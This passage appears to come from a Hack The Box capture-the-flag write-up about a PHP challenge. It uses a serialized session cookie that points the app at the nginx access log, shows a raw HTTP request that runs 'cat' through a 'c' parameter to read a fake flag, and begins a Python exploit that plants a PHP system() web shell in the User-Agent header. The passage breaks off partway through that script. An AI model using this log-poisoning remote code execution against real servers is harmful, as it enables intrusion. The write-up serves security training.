 > Flag name is `flag_lBfIt`
{: .prompt-info }

Now lets get the flag.  
payload: `cat ../flag_lBfIt`
```http
GET /?c=cat+../flag_lBfIt HTTP/1.1
Host: 127.0.0.1:1337
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ==
Connection: close

HTTP/1.1 200 OK
Server: nginx
Date: Thu, 21 Sep 2023 09:46:41 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.26
Content-Length: 10074

172.17.0.1 - 200 "GET / HTTP/1.1" "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36" 
...
172.17.0.1 - 200 "GET / HTTP/1.1" "-" "HTB{f4k3_fl4g_f0r_t3st1ng}
...
```

> We got the (fake) flag: `HTB{f4k3_fl4g_f0r_t3st1ng}`
{: .prompt-info }

We are now at the point that we know how to exploit the vulnerability and ready to do the same to the live target. To make it look a little bit more professional we write a simple exploit which automatically exploits the live target.

## automatic exploitation
### python exploit code
```python
import http.client
import sys

flagName = ""
flag = ""

host = sys.argv[1]
conn = http.client.HTTPConnection(host)

# poison log file
print("[*] Poisoning log file...")
conn.request("GET", "/", headers={"Host":host ,"User-Agent": "<?php system($_REQUEST['c']); ?>"})
response = conn.getresponse()
```
